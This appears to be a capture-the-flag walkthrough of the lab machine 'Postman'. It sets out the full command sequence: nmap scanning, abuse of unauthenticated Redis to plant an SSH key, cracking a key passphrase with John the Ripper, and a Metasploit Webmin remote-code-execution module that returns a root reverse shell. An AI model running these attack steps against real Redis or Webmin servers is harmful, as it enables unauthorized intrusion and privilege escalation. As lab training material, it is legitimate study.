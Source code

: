 <h2>Target: 10.10.10.160 Postman</h2>

<b>Initial Access:</b><br>
nmap -Pn 10.10.10.160 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Output shows open ports: 22, 80, 6379, 10000

Enumerate these open ports further with nmap: <br>
nmap -Pn 10.10.10.160 --min-rate=5000 -p 22,80,6379,10000 -sC -sV -oN nmap.postman
 
![image](https://user-images.githubusercontent.com/93153300/204876854-dea7d6a0-ab9b-4857-9e38-e00cf45fb802.png)
Visiting port 80 and enumerating the site we don’t find anything of interest.  Visiting port 10000 shows:
 
![image](https://user-images.githubusercontent.com/93153300/204876897-dd434127-0d98-4957-b33b-1aaf323cec4f.png)
 
We don’t have credentials, and default credentials don’t work either.  However, the page does show that it is using Webmin and nmap showed that the version is 1.910.  Search for an exploit using command: searchsploit webmin.  Searchsploit returns a webmin 1.910 exploit: 

![image](https://user-images.githubusercontent.com/93153300/204876917-73b74713-e349-4809-b25e-95fd0beb257d.png)
 
Reading through the code of the exploit 46984.rb shows that this exploit will get us a shell as root, but we need credentials for this exploit.  Since we don't have credentials their isn't much more we can do on port 10000.  

Looking at our nmap scan, port 6379 shows Redis version 4.0.9.  Google  search ‘Redis 4  exploit’  found https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis.  The hacktricks site we found shows:
 
![image](https://user-images.githubusercontent.com/93153300/204876949-5d0ae1dc-653c-4f73-a57d-62ae94ab7b2d.png)
 
Following the steps shown on the hacktricks screenshot above:<br>
Step 1: Login to  redis using command: redis-cli -h 10.10.10.160 <br>
Step 2: on redis run: config get dir

![image](https://user-images.githubusercontent.com/93153300/204877010-a3b62982-962a-4ad1-9a31-c435cefa51ee.png)

Take note of the directory “/var/lib/redis”.<br>
Step 3: on our local kali run: ssh-keygen -t rsa <br>
Step 4: on our local kali run: (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt <br>
Step 5: on our local kali run: cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key <br>
Step 6: on redis run: config set dir /var/lib/redis/.ssh <br>
Step 7: on redis run: config set dbfilename "authorized_keys" <br>
Step 8: on redis run: save <br>
Step 9: on our local kali run: chmod 600 id_rsa <br>
Step 10: on our local kali run: ssh -i id_rsa redis@10.10.10.160
 
We have shell as user redis:

![image](https://user-images.githubusercontent.com/93153300/204877029-0198ffcc-df1b-4130-b237-b2860a87d7e1.png)

__________________________________________________________________
<b>Lateral Movement:</b><br>
File /etc/passwd shows their is a user Matt.

In directory /opt we find a file called id_rsa.bak, which is a private ssh key.  Perhaps this is Matt’s private ssh key.  Download the file id_rsa.bak to our local kali.   The key is protected with a passphrase, use ssh2john to crack the passphrase.  

Step 1: ssh2john id_rsa.bak > hash <br>
Step 2: john hash --wordlist=/usr/share/wordlists/rockyou.txt   → Found passphrase: computer2008

Even though we have the private key, we cannot log into user Matt via ssh.  Reading the file /etc/ssh/sshd_config explains why:

![image](https://user-images.githubusercontent.com/93153300/204877059-43448b02-1272-4f6d-b8a6-3b636a8ec6a1.png)
 
This file denies user Matt to login via ssh. Instead, run command: su Matt → enter the password when prompted.

It worked, we have shell as user Matt.  We can get the flag in /home/Matt/user.txt
___________________________________________________________________________
<b>Privilege Escalation</b><br>
Going back to the webmin site on port 10000, try Matt’s credentials for login.  It works, we get logged in.   Now that we have credentials for webmin, we can go back to the exploit we found for webmin.  These are the steps for the exploit:

Step 1: msfconsole -q <br>
Step 2: use exploit/linux/http/webmin_packageup_rce <br>
Step 3: show options: 

![image](https://user-images.githubusercontent.com/93153300/204877105-fc6d7664-9723-40f0-9246-9cef981bb496.png)


Step 4: Fill out the options: set lhost tun0 → set lport 443 → set rhosts 10.10.10.160 → set username Matt → set password computer2008 → set ssl true → run
 
![image](https://user-images.githubusercontent.com/93153300/204877140-20a93322-ac67-4a05-8540-4243d8ac53ab.png)
 
We get shell as root.  We can get the flag in /root/root.txt.
